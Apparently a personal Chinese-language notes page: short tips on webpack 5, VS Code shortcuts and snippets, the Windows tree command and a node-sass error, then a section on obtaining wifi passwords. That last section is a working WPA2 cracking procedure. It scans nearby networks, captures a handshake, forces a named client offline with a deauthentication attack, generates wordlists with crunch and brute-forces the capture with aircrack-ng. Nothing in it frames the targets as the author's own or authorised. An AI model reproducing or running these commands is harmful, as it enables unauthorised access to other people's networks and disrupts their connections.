 #  记录  学习  、 工作  日常笔记 

##  webpack4 和 5 的一些区别 
 
1. webpack5 内置图片处理 只需要做配置即可使用 
2. 内置清空上次打包内容  ，在output中配置clearn：true 

## vscode注释的快捷键：
“Ctrl + /”和“Alt+Shift+A”。vscode中进行注释的方法：1、单行注释，使用“Ctrl + /”，或者先按“CTRL+K”，再按“CTRL+U”；2、块注释，使用“Alt+Shift+A”。

## vscode 用户自定义代码的设置方法
1. ctrl+shift+P 
2. 选择Preferences: Configure User Snippets 
3. 在html.json, javascript.json, javascriptbabel.json里都设置一下~

## 输出目录树 
tree [drive][path] [/F] [/A]
#/f 显示所有目录及目录下的所有文件，省略时，只显示目录，不显示目录下的文件
#/a 使用ASCII字符，而不使用扩展字符

使用案例：
1. 把D盘nodejs目录下的目录及文件目录树输出到D盘的result.txt文件
tree D:\nodejs /f > D:result.txt
2. 生成当前目录树 输出到 result.text
tree /f > result.text

## Node Sass could not find a binding for your current environment: Windows 64-bit with Node.js 12.x 
出现上述问题原因：node版本与node-sass版本不匹配导致，由于我对node版本升级，原来的node-sass版本过低。 
1. npm rebuild node-sass
2. npm update
3. 重新启动项目，即可解决

## wifi密码
1. sudo -i 
2. ifconfig
3. airmon-ng  
4. airmon-ng start wlan0  发起监听网卡
5. ifconfig
6. airodump-ng wlan0mon 扫描周边wifi（wlan0mon是上一步ifconfig查询出来的网卡名）
扫描出来的大概信息为 ： 
BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID                                                                                                                                                                                                                                                                                                                                                                      
 08:60:83:A4:88:90  -58        3      147   20   3  130   WPA2 CCMP   PSK  CMCC-2EFH                                                                                                                              
 EC:6C:B5:98:CA:40  -61        9       11    0   9  130   WPA2 CCMP   PSK  CMCC-208
扫描出来的wifi信息 原来抓包 ，需要用到bssid（mac地址）  和 ch （频段） 
7. 抓包到handshake （被动的抓包模式 需要有用户上下线 ，所以我们使用另外更快的方法,可以促进它加速完成）
airodump-ng -c 9 --bssid EC:6C:B5:98:CA:40  -w /home/kail/桌面/handshake wlan0mon

8. 使用ack死亡攻击 踢下线 ，WiFi有自动登入功能，重新登录我们就可以立马抓到包了

aireplay-ng -0 10 -a EC:6C:B5:98:CA:40 -c 30:03:C8:3B:D7:C7 wlan0mon 

    0 代表下线; 10 代表攻击10次 ; -a后面是mac地址 ;-c后面是我们上一步抓包的STATION ，代表设备

当抓包的终端头部出现 ...WPA handshake: EC:6C:B5:98:CA:40...  代表我们抓包成功了！
会在桌面上生成4-5个文件 ， 我们主要用到.cap文件
9.  准备字典  使用crunch工具进行 字典生成  优化规则
/usr/share/crunch/ 找到定义好的字符集  
1. 28.lalpha-numeric                = [abcdefghijklmnopqrstuvwxyz0123456789]
2. 40.mixalpha-numeric-all       = [abcdefghijklmnopqrstuvwxypqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789]

执行生成命令 :
crunch 8 8 /usr/share/crunch/charset.lst lalpha-numeric 
根据字符集生成密码 -o START 路径.txt 可以输出文件
表示 生成最短8个 最长8个 指定字符集规则的文件
crunch 8 8 /usr/share/crunch/charset.lst mixalpha-numeric-all

crunch 8 8 /usr/share/crunch/charset.lst mixalpha-numeric-all -b 1gb -o START /home/kail/
//生成指定字符串
crunch 8 8 abcdefghijklmnopqrstuvwxypqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 -b 1gb -o START /home/kail/

crunch 8 8 abcdefghijklmnopqrstuvwxypqrstuvwxyz0123456789 -d 1 -b 1gb -o START /home/kail/

crunch 8 8 0123456789 -b 1gb -o START /home/kail/

10. 暴力破解 

跑本地字典 ： 
aircrack-ng -w /home/kail/passwords-1.txt -b EC:6C:B5:98:CA:40 /home/kail/桌面/handshake-0*.cap

aircrack-ng -w /root/00000000-99999999.txt -b EC:6C:B5:98:CA:40 /home/kail/桌面/handshake-0*.cap
跑生成的字典 ： 



    -w 后面是我们放在桌面的字典  -b后面是BSSID地址  以及我们抓包的文件地址